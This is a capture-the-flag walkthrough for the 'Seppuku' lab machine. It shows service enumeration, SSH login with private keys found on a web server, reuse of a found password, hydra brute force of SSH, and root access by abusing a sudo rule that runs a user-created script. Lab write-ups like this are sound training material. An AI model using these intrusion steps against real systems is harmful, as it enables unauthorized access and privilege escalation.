 ```yaml
---
description: >-
  This is a free linux, proving grounds machine, you can also download it from
  vulhub.
---
```


# Seppuku

### Nmap enumeration

```bash
nmap -sV -sC -T4 -p- -oN ~/Desktop/labs/playground/seppuku/nmap 192.168.177.90
```

```markdown
Nmap scan report for 192.168.177.90
Host is up (0.18s latency).
Not shown: 65259 closed tcp ports (conn-refused), 268 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:55:a8:e4:0f:28:bc:b2:a6:7d:41:76:bb:9f:71:f4 (RSA)
|   256 16:fa:29:e4:e0:8a:2e:7d:37:d2:6f:42:b2:dc:e9:22 (ECDSA)
|_  256 bb:74:e8:97:fa:30:8d:da:f9:5c:99:f0:d9:24:8a:d5 (ED25519)
80/tcp   open  http          nginx 1.14.2
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  p��tUU        Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/empoweri0 LiteSpeed
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
|_http-title: Did not follow redirect to https://192.168.177.90:7080/
7601/tcp open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Seppuku
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http          LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Seppuku
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: seppuku
|   NetBIOS computer name: SEPPUKU\x00
|   Domain name: \x00
|   FQDN: seppuku
|_  System time: 2024-01-21T14:36:27-05:00
| smb2-time: 
|   date: 2024-01-21T19:36:29
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


```

### smb enumeration

smb is present on ports 139,445

```bash
enum4linux 192.160.177.90
```

we found users on the system&#x20;

<figure><img src="../.gitbook/assets/users.png" alt=""><figcaption></figcaption></figure>

```markdown
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''  

S-1-22-1-1000 Unix User\seppuku (Local User)                    
S-1-22-1-1001 Unix User\samurai (Local User)
S-1-22-1-1002 Unix User\tanto (Local User)

```

### http enumeration

. port 80 requires a login, butrueforce is dead end . it has no sub-directories

<figure><img src="../.gitbook/assets/Screenshot_2024-01-21_22-45-50.png" alt=""><figcaption></figcaption></figure>

port 8088 it has sub-directories but don't work, rabbit-hole

<figure><img src="../.gitbook/assets/8088.png" alt=""><figcaption></figcaption></figure>

sub-dircetories they don't work&#x20;

<figure><img src="../.gitbook/assets/808.png" alt=""><figcaption></figcaption></figure>

port 7601&#x20;

<figure><img src="../.gitbook/assets/7601.png" alt=""><figcaption></figcaption></figure>

sub-directory enumeration on port 7601

```shell
gobuster dir -u http://192.168.177.90:7601/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x html,txt,php 
```

<figure><img src="../.gitbook/assets/76.png" alt=""><figcaption></figcaption></figure>

found a static page, on /ckeditor&#x20;

<figure><img src="../.gitbook/assets/ststic.png" alt=""><figcaption></figcaption></figure>

founds some files in keys directory

<figure><img src="../.gitbook/assets/keys.png" alt=""><figcaption></figcaption></figure>

These two file are ssh keys to but to what users.&#x20;

<figure><img src="../.gitbook/assets/pri.png" alt=""><figcaption></figcaption></figure>

another static page /production

<figure><img src="../.gitbook/assets/pro.png" alt=""><figcaption></figcaption></figure>

&#x20;/secret

<figure><img src="../.gitbook/assets/scret.png" alt=""><figcaption></figcaption></figure>

We have received a password list , we are going o use it to brute-force the ssh and see if we might gave i login. trying the private key obtained

```shell
chmod 600 private
ssh -i private tanto@192.168.177.90
```

We have access to tanto&#x20;

<figure><img src="../.gitbook/assets/tanto.png" alt=""><figcaption></figcaption></figure>

go to unrestricted terminal

```shell
which python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

enter into /home/seppuku find the local.txt, but we also see a .passwd file&#x20;

<figure><img src="../.gitbook/assets/pass.png" alt=""><figcaption></figcaption></figure>

we have a found a password but \[12345685213456!@!@A] but its for which user

```shell
ssh samurai@192.168.177.90
```

the password we found was for samurai change to unrestricted shell

```shell
echo $$ bash
```

<figure><img src="../.gitbook/assets/sum.png" alt=""><figcaption></figcaption></figure>

with hydra we also found the password of seppuku

```shell
hydra -l seppuku -P password.lst ssh://192.168.177.90
```

<figure><img src="../.gitbook/assets/hyd.png" alt=""><figcaption></figcaption></figure>

logging in&#x20;

<figure><img src="../.gitbook/assets/sep.png" alt=""><figcaption></figcaption></figure>

## privilege escalation

```shell
sudo -l
```

when we run sudo -l on user samurai we see he ca run some files&#x20;

<figure><img src="../.gitbook/assets/pri1.png" alt=""><figcaption></figcaption></figure>

```markdown
(ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

we are going to create the .cgi\_bin file in tanto because it doesn't exist their

```markdown
mkdir .cgi_bin
```

<figure><img src="../.gitbook/assets/cgi.png" alt=""><figcaption></figcaption></figure>

and also we are going to create a bin file which might help has to get a root shell

```markdown
echo '/bin/bash' > bin
chmod 777 bin
```

<figure><img src="../.gitbook/assets/cg.png" alt=""><figcaption></figcaption></figure>

root user

```markdown
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

<figure><img src="../.gitbook/assets/root.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/rt.png" alt=""><figcaption></figcaption></figure>

